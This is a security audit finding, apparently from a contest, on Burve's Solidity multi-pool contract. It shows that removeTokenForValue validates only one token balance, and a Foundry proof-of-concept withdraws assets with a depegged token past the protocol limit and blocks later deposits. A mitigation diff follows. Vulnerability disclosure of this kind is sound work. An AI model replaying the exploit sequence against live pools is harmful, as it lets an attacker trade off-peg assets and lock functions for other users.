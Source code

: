 Sneaky Burlap Pigeon

High

# Exceeding Twice Target in the `removeSingleForValue` Function

### Summary
In the `Closure::removeTokenForValue` function, while the `target` is decreased, only the balance that has just been modified is checked. Other balances are not validated, which can result in exceeding twice the `target`.

### Root Cause
https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/src/multi/closure/Closure.sol#L374
```solidity
    function removeTokenForValue(
        Closure storage self,
        VertexId vid,
        uint256 amount,
        uint256 bgtPercentX256,
        SearchParams memory searchParams
    ) internal returns (uint256 value, uint256 bgtValue, uint256 tax) {
        require(!isAnyLocked(self), CannotRemoveWithLockedVertex(self.cid));
        require(self.cid.contains(vid), IrrelevantVertex(self.cid, vid));
        trimAllBalances(self);
        uint8 idx = vid.idx();
        // We tax first so the amount which moves up the value they're paying.
        uint256 taxedRemove = UnsafeMath.divRoundingUp(
            amount << 128,
            ONEX128 - self.baseFeeX128
        );
        tax = taxedRemove - amount;
        // Use the ValueLib's newton's method to solve for the value removed and update target.
        uint256[MAX_TOKENS] storage esX128 = SimplexLib.getEsX128();
        // This is tricky and strange, but see addTokenForValue for reason.
        self.balances[idx] -= taxedRemove;
        uint256 newTargetX128;
        {
            (uint256[] memory mesX128, uint256[] memory mxs) = ValueLib
                .stripArrays(self.n, esX128, self.balances);
            newTargetX128 = ValueLib.t(
                searchParams,
                mesX128,
                mxs,
                self.targetX128 // TODO: Add better starting estimate logic
            );
        }
        // The pool is now entirely correct by just updating the target and value balances.
        uint256 valueX128 = ((self.targetX128 - newTargetX128) * self.n);
        value = valueX128 >> 128;
        if ((value << 128) > 0) value += 1; // We need to round up.
        bgtValue = FullMath.mulX256(value, bgtPercentX256, false); // Convention to round BGT down both ways.
        self.targetX128 = newTargetX128;
374:    self.setBalance(idx, self.balances[idx]);
        self.valueStaked -= value;
        self.bgtValueStaked -= bgtValue;
    }
```

### Internal pre-conditions
N/A

### External pre-conditions
N/A

### Attack Path
N/A

### PoC
https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/test/facets/ValueFacet.t.sol
```solidity
    function test_exceedTwiceTarget() public {
        uint256[4] memory initBalances = getBalances(alice);
        vm.startPrank(alice);
        valueFacet.addValue(alice, 0x7, 7.5e20, 0);
        valueFacet.removeSingleForValue(alice, 0x7, tokens[1], 3.2e20, 0, 0);
        valueFacet.removeSingleForValue(alice, 0x7, tokens[2], 3.3e20, 0, 0);
        valueFacet.removeSingleForValue(alice, 0x7, tokens[1], 0.2e20, 0, 0);
        valueFacet.removeSingleForValue(alice, 0x7, tokens[2], 0.1e20, 0, 0);
        vm.stopPrank();

        (, uint256 targetX128, uint256[MAX_TOKENS] memory balances, , ) = simplexFacet.getClosureValue(0x7);
        console.log("target      : %e", targetX128 >> 128);
        console.log("balances[0] : %e", balances[0]);
        console.log("balances[1] : %e", balances[1]);
        console.log("balances[2] : %e\n", balances[2]);

        uint256[4] memory currentBalances = getBalances(alice);
        int256[4] memory diffs = diffBalances(currentBalances, initBalances);
        console.log("alice_diffs[0]  : %e", diffs[0]);
        console.log("alice_diffs[1]  : %e", diffs[1]);
        console.log("alice_diffs[2]  : %e", diffs[2]);

        vm.prank(bob);
        valueFacet.addValue(bob, 0x7, 3e20, 0);
    }
```
forge test --match-test "test_exceedTwiceTarget" -vv
Result:
```bash
Ran 1 test for test/facets/ValueFacet.t.sol:ValueFacetTest
[FAIL: TokenBalanceOutOfBounds(7, 0, 689599233505280216972 [6.895e20], 16921888250143289070 [1.692e19], 406125318003438937672 [4.061e20])] test_exceedTwiceTarget() (gas: 2141354)
Logs:
  target      : 1.03062659001719468836e20
  balances[0] : 3.5e20
  balances[1] : 1e19
  balances[2] : 1e19

  alice_diffs[0]  : -2.5e20
  alice_diffs[1]  : 9e19
  alice_diffs[2]  : 9e19
```
As can be seen, balance[0] = 3.5e20 > 2 * 1.031(target).
In this PoC, Alice withdraw 0.9e20 of token1 and 0.9e20 of token2 using 2.5e20 of depegged token0.
After this, Bob's `addValue` function fails.

### Impact
1. Most functions, including time-sensitive ones, may become unusable due to this issue.
2. A malicious user can exchange assets using depegged assets by exceeding the protocol limits.

https://docs.burve.fi/technicals/multi-pool-details/risks#passive-interventions
> Burve's Multi-pool contract cannot accept more than twice the target balance for any token (currently twice but this can be adjusted by governance).
>Effectively, once a token's price goes off peg too far, the contract simply stops accepting more of it. If the price recovers then the contract will naturally start selling it again and collect fees as if nothing has happened.

### Mitigation
https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/src/multi/closure/Closure.sol#L374
```diff
    function removeTokenForValue(
        Closure storage self,
        VertexId vid,
        uint256 amount,
        uint256 bgtPercentX256,
        SearchParams memory searchParams
    ) internal returns (uint256 value, uint256 bgtValue, uint256 tax) {
        require(!isAnyLocked(self), CannotRemoveWithLockedVertex(self.cid));
        require(self.cid.contains(vid), IrrelevantVertex(self.cid, vid));
        trimAllBalances(self);
        uint8 idx = vid.idx();
        // We tax first so the amount which moves up the value they're paying.
        uint256 taxedRemove = UnsafeMath.divRoundingUp(
            amount << 128,
            ONEX128 - self.baseFeeX128
        );
        tax = taxedRemove - amount;
        // Use the ValueLib's newton's method to solve for the value removed and update target.
        uint256[MAX_TOKENS] storage esX128 = SimplexLib.getEsX128();
        // This is tricky and strange, but see addTokenForValue for reason.
        self.balances[idx] -= taxedRemove;
        uint256 newTargetX128;
        {
            (uint256[] memory mesX128, uint256[] memory mxs) = ValueLib
                .stripArrays(self.n, esX128, self.balances);
            newTargetX128 = ValueLib.t(
                searchParams,
                mesX128,
                mxs,
                self.targetX128 // TODO: Add better starting estimate logic
            );
        }
        // The pool is now entirely correct by just updating the target and value balances.
        uint256 valueX128 = ((self.targetX128 - newTargetX128) * self.n);
        value = valueX128 >> 128;
        if ((value << 128) > 0) value += 1; // We need to round up.
        bgtValue = FullMath.mulX256(value, bgtPercentX256, false); // Convention to round BGT down both ways.
        self.targetX128 = newTargetX128;
-374:    self.setBalance(idx, self.balances[idx]);
+        for (uint8 i = 0; i < MAX_TOKENS; i++) if (self.cid.contains(i)) self.setBalance(i, self.balances[i]);
        self.valueStaked -= value;
        self.bgtValueStaked -= bgtValue;
    }
```

